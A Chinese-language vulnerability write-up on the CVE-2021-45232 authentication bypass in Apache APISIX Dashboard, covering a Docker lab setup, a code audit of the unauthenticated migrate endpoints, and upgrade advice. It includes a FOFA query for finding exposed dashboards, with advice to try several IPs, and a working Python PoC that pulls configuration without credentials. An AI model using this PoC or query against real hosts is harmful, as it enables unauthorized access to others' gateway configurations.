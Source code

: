 
# 0X00 漏洞信息
Apache APISIX是一个实时、动态、高性能的API网关。Apache APISIX Dashboard旨在让用户尽可能容易地通过前端界面来操作Apache APISIX。<br />		2021年12月29日，监测到一则Apache官方发布的CVE-2021-45232 Apache APISIX Dashboard未授权访问漏洞的信息在2.10.1之前的Apache APISIX Dashboard中，Manager API使用了两个框架，在框架gin的基础上引入了框架droplet。所有API和认证中间件都是基于框架 droplet开发的，但有些API直接使用了框架gin的接口，从而绕过身份验证，导致未授权访问。


# 0X01 漏洞概述
| 漏洞名称 | Apache APISIX Dashboard 身份验证绕过漏洞 |
| --- | --- |
| 漏洞等级 | 高危 |
| CVE编号 | CVE-2021-45232 |
| CNVD编号 |  |
| CNNVD编号 |  |
| 其他编号 |  |
| 披露时间 | 2021.12.18 |
| 分数 | 9.8 |
| CVSS | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| 披露链接 | [https://nvd.nist.gov/vuln/detail/CVE-2021-45232](https://nvd.nist.gov/vuln/detail/CVE-2021-45232) |


# 0X02 影响范围
Apache APISIX Dashboard < 2.10.1


# 0X03 环境搭建
通过git拉取在docker搭建环境
```javascript
git clone https://github.com/apache/apisix-docker
cd ./apisix-docker/example
```
![image.png](./assets/1660197764782-8c283ab1-e71a-4739-9694-cf62063ecd3c.png)

注意这里需要把apisix-dashboard版本修改为2.7
![image.png](./assets/1660271651217-9d1b7295-e5a4-4fbc-8d1f-1616f684eba0.png)

下载并启动环境
```javascript
docker-compose up -d
```

浏览器访问，默认账户密码：admin/admin




# 0X04 代码审计
以2.9.0版本为例
```
https://github.com/apache/apisix-dashboard/tree/release/2.9.0
```

		apisix-dashboard-release-2.9.0\apisix-dashboard-release-2.9.0\api\internal\filter路径下authentication.go文件中定义了用户通过URL访问以/apisix开头的接口时，使用HTTP Header中的Authorization进行权限认证。还定义了两个例外/apisix/admin/tool/version和/apisix/admin/user/login不需要进行权限认证认证。<br />![image-20220107094313191.png](./assets/1659516130649-68424dc3-2140-40cb-8876-22ebf6ff5317.png)

在apisix-dashboard-release-2.9.0/api/internal/route.go中注册了一些handler，在正常情况下利用droplet对URL进行鉴权处理，与authentication.go中的handle对应。<br />![image-20220107094347429.png](./assets/1659516144374-d3e37773-2294-49e8-b7be-9ab7c912fbf6.png)

	在apisix-dashboard-release-2.9.0/api/internal/handler/migrate/migrate.go中发现有两个接口/apisix/admin/migrate/export和/apisix/admin/migrate/import没有经过droplet进行处理，存在认证绕过。<br />![image-20220107094406064.png](./assets/1659516159402-b00661f3-1653-493a-925d-972249f1002b.png)




# 0X05 漏洞复现
fofa语句<br />title="Apache APISIX Dashboard"<br />![image-20220107094525838.png](./assets/1659516193584-5601e99b-ef24-4a50-927b-332ef9d9d51b.png)

使用ip+端口+/apisix/admin/migrate/export 的形式，不一定每个Ip都有这个漏洞，多尝试几个。

![image-20220107094641967.png](./assets/1659516210511-95dfaa0c-73da-4df9-9328-75dd2a13d576.png)



# 0X05 POC
```javascript
import urllib.request
import ssl

url=input("输入测试地址\n>>>") + "/apisix/admin/migrate/export"
context = ssl._create_unverified_context()
header = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
            "X-Forwarded-For": "127.0.0.1"
        }
try:
    request = urllib.request.Request(url=url, headers=header)
    response = urllib.request.urlopen(request, context=context, timeout=10)
    html = str(response.read())
    if "Routes" in html or "hosts" in html and response.status == 200:
        print(html)
        print("[" + url + "]" + "[===存在Apache APISIX Dashboard身份认证绕过漏洞===]")
    else:
        print("[" + url + "]" + "[不存在Apache APISIX Dashboard身份认证绕过漏洞]")
except Exception as e:
    print("[" + url + "]" + "[不存在漏洞]", format(e))
```


# 0X06 解决方案
目前此漏洞已经修复，建议受影响用户尽快升级更新至Apache APISIX Dashboard 2.10.1版本。<br />下载链接：[https://github.com/apache/apisix-dashboard/releases](https://github.com/apache/apisix-dashboard/releases)
缓解措施：更改默认用户名和密码，限制源IP访问 Apache APISIX Dashboard。
